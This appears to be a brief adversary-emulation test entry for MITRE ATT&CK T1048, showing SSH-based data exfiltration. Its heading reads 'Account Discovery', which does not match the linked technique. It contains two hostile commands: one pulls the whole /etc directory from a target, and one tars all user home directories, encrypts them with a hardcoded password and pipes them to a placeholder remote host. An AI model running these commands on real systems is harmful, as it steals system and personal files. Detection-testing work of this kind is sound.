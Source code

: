 ﻿## Account Discovery

MITRE ATT&CK Technique: [T1048](https://attack.mitre.org/wiki/Technique/T1048)

### SSH

Remote to Local:

    ssh target.example.com "(cd /etc && tar -zcvf - *)" > ./etc.tar.gz

Local to Remote:

    tar czpf - /Users/* | openssl des3 -salt -pass pass:1234 | ssh foo@example.com 'cat > /Users.tar.gz.enc'


